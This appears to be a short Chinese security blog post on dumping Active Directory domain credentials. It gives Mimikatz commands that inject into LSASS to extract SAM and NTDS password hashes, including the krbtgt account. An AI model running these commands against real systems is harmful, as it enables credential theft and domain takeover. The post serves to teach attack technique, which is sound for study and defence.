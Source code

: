 ```yaml
---
title: Dump域内凭据汇总
date: 2020-12-31 23:59:52 +0800
categories: [域安全, TA0006凭据访问]
tags: [TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# Dump域内凭据汇总

[How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398#CreateIFM)



## 读取LSASS进程内存

### 1. 本地获取

**Mimikatz**

通过与LSA Server交互直接拿到SAM和NTDS中储存的Hash, 这种方式与读取SAM，NTDS文件拿到的信息基本一致，但直接与LSASS 交互有可能造成其crash，尤其是在域很大的情况下。

```
privilege::debug
lsadump::lsa /inject
lsadump::lsa /inject /id:502
lsadump::lsa /inject /name:krbtgt
```

![image-20201116205815213](/assets/img/image-20201116205815213.png)
